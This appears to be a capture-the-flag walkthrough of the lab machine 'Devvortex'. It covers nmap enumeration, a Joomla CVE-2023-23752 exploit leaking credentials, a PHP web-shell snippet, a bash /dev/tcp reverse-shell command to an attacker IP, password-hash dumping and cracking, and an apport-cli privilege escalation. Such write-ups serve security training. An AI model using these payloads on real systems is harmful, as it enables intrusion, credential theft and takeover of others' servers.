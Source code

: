 # Enumeration
## NMAP

```bash
nmap -sC -sV -Pn -p- 10.10.11.242 -T5
Starting Nmap 7.95 ( https://nmap.org ) at 2025-04-25 10:06 EDT
Nmap scan report for 10.10.11.242
Host is up (0.048s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
|_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://devvortex.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 48.11 seconds

```


Using Wappalyzer we find out that the CMS in `Joomla`. 

After using the joomscan we find out the Joomla version  `4.2.6`.

The admin page for Joomla is

```bash
http://dev.devvortex.htb/administrator/modules/mod_version/mod_version.xml
```
# Foothold
## Vulnerability Search

Source  | Link
------------- | -------------
NIST  | https://nvd.nist.gov/vuln/detail/cve-2023-23752
Exploit  | https://github.com/Acceis/exploit-CVE-2023-23752


```bash
python3 exploit.py -u 'dev.devvortex.htb' -o results.txt 
[+] => Vulnerable dev.devvortex.htb
User: lewis Password: P4ntherg0t1n5r3c0n## Database: joomla
File Saved => results.txt
```
From the exploit we got the user `lewis` and the password `P4ntherg0t1n5r3c0n##`

![picture alt](assets/joom_admin.png)

All we need to do is to add a reverse shell to a php template
```php
if (isset($_REQUEST['cmd'])){
    system($_REQUEST['cmd']);
}
```
After adding the above code in a php template we can get the reverse shell with 

```bash
cmd=bash+-c+'bash+-i+>%26+/dev/tcp/10.10.14.15/4444+0>%261'
```
![picture alt](assets/reverse.png)

We have the credentials from the database so we can connect to it.

```bash
mysql> describe sd4fg_users;
+---------------+---------------+------+-----+---------+----------------+
| Field         | Type          | Null | Key | Default | Extra          |
+---------------+---------------+------+-----+---------+----------------+
| id            | int           | NO   | PRI | NULL    | auto_increment |
| name          | varchar(400)  | NO   | MUL |         |                |
| username      | varchar(150)  | NO   | UNI |         |                |
| email         | varchar(100)  | NO   | MUL |         |                |
| password      | varchar(100)  | NO   |     |         |                |
| block         | tinyint       | NO   | MUL | 0       |                |
| sendEmail     | tinyint       | YES  |     | 0       |                |
| registerDate  | datetime      | NO   |     | NULL    |                |
| lastvisitDate | datetime      | YES  |     | NULL    |                |
| activation    | varchar(100)  | NO   |     |         |                |
| params        | text          | NO   |     | NULL    |                |
| lastResetTime | datetime      | YES  |     | NULL    |                |
| resetCount    | int           | NO   |     | 0       |                |
| otpKey        | varchar(1000) | NO   |     |         |                |
| otep          | varchar(1000) | NO   |     |         |                |
| requireReset  | tinyint       | NO   |     | 0       |                |
| authProvider  | varchar(100)  | NO   |     |         |                |
+---------------+---------------+------+-----+---------+----------------+
17 rows in set (0.00 sec)
```

```bash
mysql> select username, password from sd4fg_users;
+----------+--------------------------------------------------------------+
| username | password                                                     |
+----------+--------------------------------------------------------------+
| lewis    | $2y$10$6V52x.SD8Xc7hNlVwUTrI.ax4BIAYuhVBMVvnYWRceBmy8XdEzm1u |
| logan    | $2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy/yBtkIj12 |
+----------+--------------------------------------------------------------+
2 rows in set (0.00 sec)
```

Using hashcat to crack the password for `logan` we got `tequieromucho`

![picture alt](assets/user_flag.png)

## Lateral Movement

![picture alt](assets/lateral_path.png)

## Vulnerability Search

Source  | Link
------------- | -------------
Exploit  | https://github.com/diego-tella/CVE-2023-1326-PoC

The vulnerability is with the pager which displays the text. We can start the apport-cli and when we try to view the report we can hit `!/bin/bash` and get root privileges.

![picture alt](assets/root.png)

![picture alt](assets/root_flag.png)